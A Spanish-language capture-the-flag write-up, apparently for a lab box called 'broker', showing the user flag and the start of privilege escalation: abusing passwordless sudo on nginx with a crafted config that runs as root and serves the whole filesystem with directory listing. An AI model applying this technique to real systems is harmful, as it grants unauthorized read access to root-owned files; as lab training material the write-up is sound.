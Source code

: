 ## User flag

- Vemos la flag.

```bash
activemq@broker:~$ cat user.txt 
54339dbd39d73ad7935a3666c77837c1
activemq@broker:~$ 
```

## Privilege Escalation

- Podemos ejecutar como `root`  `nginx` sin proporcionar contraseña <https://kinsta.com/es/base-de-conocimiento/que-es-nginx/>.

- Vemos que podemos proporcionar un archivo de configuración para correr una web.

```bash
activemq@broker:~$ sudo nginx -h
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

activemq@broker:~$ 
```

- Vamos a crear el `.conf`.

```bash
activemq@broker:/tmp$ cp /etc/nginx/nginx.conf /tmp
activemq@broker:/tmp$ cd /tmp
```

- Editamos el `.conf` para poder tener privilegios de `directory listing` y crear el servicio para poder ver todo desde el directorio `/` de `root`.

```bash
activemq@broker:/tmp$ cat nginx.conf 
user root;

events {
	worker_connections 768;
	# multi_accept on;
}

http {
	server {
		listen     1234;
		root /;
		autoindex on;
	}
}
activemq@broker:/tmp$ 
```
